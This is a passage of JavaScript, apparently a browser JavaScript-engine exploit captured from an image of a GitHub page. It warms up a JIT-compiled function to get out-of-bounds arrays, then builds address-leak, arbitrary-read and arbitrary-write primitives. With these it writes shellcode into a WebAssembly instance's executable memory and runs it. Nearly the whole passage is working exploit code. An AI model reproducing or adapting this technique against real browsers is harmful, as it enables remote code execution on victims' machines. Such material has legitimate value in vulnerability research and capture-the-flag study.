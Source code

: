 ```js
    for (var i = 0; i < 0x10000; ++i) {
        f(false);
    }
    let [oob_smi, oob_double, arr_addrof, aar_double, www_double] = f(true);
    console.log("[+] oob_smi.length = " + oob_smi.length);
    oob_smi[14] = 0x1234;
    console.log("[+] oob_double.length = " + oob_double.length);

    let primitive = {
        addrof: (obj) => {
            arr_addrof[0] = obj;
            return (oob_double[8].f2i() >> 32n) - 1n;
        },
        half_aar64: (addr) => {
            oob_double[15] = ((oob_double[15].f2i() & 0xffffffff00000000n)
                              | ((addr - 0x8n) | 1n)).i2f();
            return aar_double[0].f2i();
        },
        full_aaw: (addr, values) => {
            oob_double[27] = 0x8888n.i2f();
            oob_double[28] = addr.i2f();
            for (let i = 0; i < values.length; i++) {
                www_double[i] = values[i];
            }
        }
    };

    console.log(primitive.addrof(oob_double).hex());
    let addr_instance = primitive.addrof(instance);
    console.log("[+] instance = " + addr_instance.hex());
    let addr_shellcode = primitive.half_aar64(addr_instance + 0x68n);
    console.log("[+] shellcode = " + addr_shellcode.hex());
    primitive.full_aaw(addr_shellcode, shellcode);
    console.log("[+] GO");
    exec_shellcode();
    return;
}

```
